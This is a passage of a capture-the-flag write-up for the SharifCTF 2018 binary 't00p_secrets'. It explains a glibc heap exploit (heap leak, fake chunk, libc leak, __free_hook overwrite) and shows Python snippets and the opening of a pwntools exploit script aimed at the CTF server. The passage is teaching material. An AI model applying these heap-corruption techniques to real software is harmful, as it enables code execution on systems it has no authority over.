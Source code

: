 Ok now to force free to consider the fake chunck a valid free chunck we must have the offset between the overflowed chunck and the fake chunck.

An heap leak is needed.

Fortunately when a secret is deleted the heap is not cleared, so we can leak the fd pointer allocating a previous free chunk.

```python
create(2, 24)
create(3, 248)
create(4, 24)
delete(2)
delete(4)
create(4, 24, val="")

heap_leak = "\x20" + print_one(4)[1:8] #fd pointer of the secret 4 points to the secret 2 (0x20 is needed because the last byte is overwritted by newline)
```

The chunck that will be manipulated is the second (secret 3), at address `heap_leak + 24`.

Using edit we set the prev_size of this chunck to the offset between it and the fake chunck.

Calling delete on it will force malloc to use the fake chunck as the next chunck to be allocated (if the size match).

We must change again master_k to set the fake chunck size to 0x100.

Now `malloc(248)` returns the fake chunck address + 16.

OKKKK whe can write on the memory after master_k now! Specifically in `ptr + 0xA`.

But before we need a lib leak.

Just print the new chunck to get an address from the main arena (free has rewritten fd with it).

The last phase is to overwrite the pointer to already created secret content with `__free_hook`, use edit and write the magic gadget address in `__free_hook`, call free and win.

Download the binary [here]({{ site-url }}/assets/sharifctf18/t00p_secrets).
Full exploit code:

```python
#TheRomanXpl0it - andreafioraldi

from pwn import *
import sys

#########################################################
BINARY="./t00p_secrets"
HOST="ctf.sharif.edu"
PORT=22107
ENV={"LD_PRELOAD":"./libc6_2.23-0ubuntu10_amd64.so"}
GDB=""
#########################################################

if len(sys.argv) < 2:
    print "args: bin|net|crash|ida|gdb\n"
    sys.exit(1)

if sys.argv[1] == "bin":
    p = process(BINARY, env=ENV)
elif sys.argv[1] == "net" or sys.argv[1] == "crash":
    p = remote(HOST, PORT)
elif sys.argv[1] == "ida":
    p = process("./linux_server64", env=ENV)
    p.recvuntil("0.1...")
elif sys.argv[1] == "gdb":
    p = process(BINARY, env=ENV)
```